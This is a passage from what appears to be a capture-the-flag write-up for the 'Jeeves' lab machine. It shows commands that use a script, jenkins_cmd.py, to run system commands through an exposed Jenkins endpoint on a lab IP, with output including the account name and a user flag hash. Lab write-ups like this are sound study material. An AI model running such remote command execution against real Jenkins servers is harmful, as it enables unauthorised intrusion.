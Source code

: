 #### 2.1. System info
```
# url='http://10.10.10.63:50000/askjeeves'
# python jenkins_cmd.py $url 'whoami'
jeeves\kohsuke
# python jenkins_cmd.py $url 'systeminfo' > systeminfo.txt
```


#### 2.2. User flag
```
$ python jenkins_cmd.py $url 'type C:\Users\kohsuke\Desktop\user.txt'
e3232272596fb47950d59c4cf1e7066a
```
